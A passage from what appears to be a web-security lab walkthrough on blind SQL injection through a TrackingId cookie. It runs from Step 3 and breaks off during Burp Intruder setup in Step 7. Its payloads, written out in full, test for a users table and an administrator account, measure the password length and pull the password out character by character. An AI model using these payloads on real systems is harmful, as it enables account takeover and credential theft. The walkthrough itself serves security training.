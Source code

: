 
### **Step 3: Verify Table Existence**

- Test for the presence of the `users` table:
    
    ```sql
    TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
    ```
    

---

### **Step 4: Identify the `administrator` User**

- Confirm the existence of the `administrator` username:
    
    ```sql
    TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
    ```
    

---

### **Step 5: Determine Password Length**

- Incrementally test the password length using payloads like:
    
    ```sql
    TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>X)='a
    ```
    
- Repeat until the condition is false to find the exact length (e.g., 20 characters).

---

### **Step 6: Extract Password Characters**

- Use the `SUBSTRING` function to extract each character:
    
    ```sql
    TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
    ```
    
    - Change `1,1` to test subsequent positions.
    - Repeat until the entire password is extracted.

---

### **Step 7: Automate Extraction with Burp Intruder**

1. **Setup Positional Markers**:
    
    - Modify the request:
        
```http
Cookie: TrackingId=xyz' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```
        